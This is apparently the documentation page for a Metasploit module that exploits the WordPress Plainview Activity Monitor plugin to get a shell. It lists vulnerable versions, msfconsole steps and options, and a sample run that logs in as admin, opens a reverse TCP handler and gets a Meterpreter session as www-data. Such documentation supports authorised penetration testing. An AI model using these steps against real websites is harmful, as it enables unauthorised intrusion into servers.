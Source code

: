 ## Description

  This module uses administrative functionality available in WordPress
  when the Plainview Activity Monitor plugin is installed to
  gain a shell with web server user permissions.

## Vulnerable Software

  This module has been tested successfully on WordPress 4.6
  with Plainview Activity Monitor version 20161228 installed.

  Software:

  * https://wordpress.org/plugins/plainview-activity-monitor/
  * https://wordpress.org/download/releases/

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/wp_plainview_activity_monitor_rce`
  3. Do: `set rhosts <IP or domain_name>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `set vhost <domain_name>`
  7. Do: `run`
  8. You should get a new session

## Options

### TARGETURI

  The base path to WordPress (default: `/`)

### USERNAME

  The username for WordPress

### PASSWORD

  The password for WordPress


## Scenarios

 ```
  msf > use exploit/unix/webapp/wp_plainview_activity_monitor_rce 
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set rhosts wordpress.test.local
  rhosts => wordpress.test.local
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set username admin
  username => admin
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set password 123456
  password => 123456
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set vhost wordpress.test.local
  vhost => wordpress.test.local
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   WordPress


  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > exploit

  [*] Started reverse TCP handler on 10.0.0.2:4444 
  [*] Trying to login...
  [+] Login Successful
  [*] Sending stage (38288 bytes) to 10.0.0.3
  [*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.3:51990) at 2019-11-10 08:24:11 +0100

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > 
 ```
